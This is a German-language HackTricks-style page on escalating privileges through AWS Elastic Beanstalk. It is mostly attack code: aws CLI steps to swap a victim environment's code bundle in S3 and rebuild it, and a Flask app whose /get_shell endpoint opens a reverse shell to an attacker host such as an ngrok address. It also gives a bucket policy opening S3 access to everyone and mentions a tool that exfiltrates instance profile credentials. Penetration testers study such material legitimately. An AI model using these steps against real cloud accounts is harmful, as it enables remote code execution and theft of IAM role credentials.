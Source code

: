 # AWS - Elastic Beanstalk Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Elastic Beanstalk

Mehr **Info über Elastic Beanstalk** in:

{{#ref}}
../aws-services/aws-elastic-beanstalk-enum.md
{{#endref}}

> [!WARNING]
> Um sensible Aktionen in Beanstalk durchzuführen, benötigen Sie **eine Menge sensibler Berechtigungen in vielen verschiedenen Diensten**. Sie können beispielsweise die Berechtigungen überprüfen, die **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`** zugewiesen sind.

### `elasticbeanstalk:RebuildEnvironment`, S3 Schreibberechtigungen & viele andere

Mit **Schreibberechtigungen für den S3-Bucket**, der den **Code** der Umgebung enthält, und Berechtigungen zum **Wiederherstellen** der Anwendung (es werden `elasticbeanstalk:RebuildEnvironment` und einige weitere, die mit `S3`, `EC2` und `Cloudformation` zusammenhängen, benötigt), können Sie den **Code** **ändern**, die App **neu erstellen** und beim nächsten Zugriff auf die App wird sie **Ihren neuen Code ausführen**, was es dem Angreifer ermöglicht, die Anwendung und die IAM-Rollenanmeldeinformationen zu kompromittieren.
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole` und mehr...

Die genannten sowie mehrere **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** und **`elasticloadbalancing`** Berechtigungen sind notwendig, um ein rohes Elastic Beanstalk-Szenario von Grund auf zu erstellen.

- Erstellen Sie eine AWS Elastic Beanstalk-Anwendung:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
- Erstellen Sie eine AWS Elastic Beanstalk-Umgebung ([**unterstützte Plattformen**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
Wenn eine Umgebung bereits erstellt wurde und Sie **keine neue erstellen möchten**, können Sie einfach die vorhandene **aktualisieren**.

- Verpacken Sie Ihren Anwendungscode und die Abhängigkeiten in eine ZIP-Datei:
```python
zip -r MyApp.zip .
```
- Laden Sie die ZIP-Datei in einen S3-Bucket hoch:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
- Erstellen Sie eine AWS Elastic Beanstalk-Anwendungsversion:
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
- Stellen Sie die Anwendungsversion in Ihrer AWS Elastic Beanstalk-Umgebung bereit:
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

Zuerst müssen Sie eine **legitime Beanstalk-Umgebung** mit dem **Code** erstellen, den Sie im **Opfer** ausführen möchten, gemäß den **vorherigen Schritten**. Möglicherweise ein einfaches **zip**, das diese **2 Dateien** enthält:

{{#tabs }}
{{#tab name="application.py" }}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{{#endtab }}

{{#tab name="requirements.txt" }}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{{#endtab }}
{{#endtabs }}

Sobald Sie **Ihre eigene Beanstalk-Umgebung** mit Ihrer Rev-Shell ausführen, ist es Zeit, sie in die **Umgebung des Opfers** zu **migrieren**. Dazu müssen Sie die **Bucket-Richtlinie** Ihres Beanstalk-S3-Buckets **aktualisieren**, damit das **Opfer darauf zugreifen kann** (Bitte beachten Sie, dass dies den Bucket für **ALLE** **öffnet**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```

```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{{#include ../../../banners/hacktricks-training.md}}
